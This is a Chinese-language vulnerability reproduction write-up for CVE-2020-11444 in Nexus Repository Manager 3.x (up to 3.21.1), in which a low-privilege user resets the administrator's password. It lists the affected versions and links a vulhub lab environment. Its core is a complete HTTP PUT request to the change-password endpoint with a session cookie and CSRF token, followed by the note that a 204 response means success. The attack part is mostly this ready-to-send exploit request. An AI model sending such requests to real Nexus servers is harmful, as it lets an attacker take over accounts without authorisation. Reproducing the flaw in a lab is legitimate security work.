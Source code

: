 # Nexus Repository Manger change-password 低权限修改管理员密码漏洞 CVE-2020-11444

## 漏洞描述

Nexus Repository Manger存在低权限修改管理员密码漏洞，低权限用户发送特定的请求包可以修改管理员账号密码

## 漏洞影响

<a-checkbox checked>Nexus  3.x OSS / Pro <= 3.21.1</a-checkbox></br>

## 环境搭建

<a-checkbox checked>https://github.com/vulhub/vulhub/tree/master/nexus/CVE-2020-10204</a-checkbox></br>

## 漏洞复现

漏洞触发需要任意账户权限

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10-20220313130306566.png)



登录任意用户后修改 NXSESSIONID，发送请求包修改管理员账号密码

```plain
PUT /service/rest/beta/security/users/admin/change-password HTTP/1.1
Host: 
accept: application/json
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/81.0.4044.138 Safari/537.36
NX-ANTI-CSRF-TOKEN: 0.6080434247960143
Content-Type: text/plain
Cookie: NX-ANTI-CSRF-TOKEN=0.6080434247960143; NXSESSIONID=76b37c99-046c-47a9-ba7d-fd4cfa33b7ff
Content-Length: 11

data=123456
```

返回204则修改成功

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10-20220313130306557.png)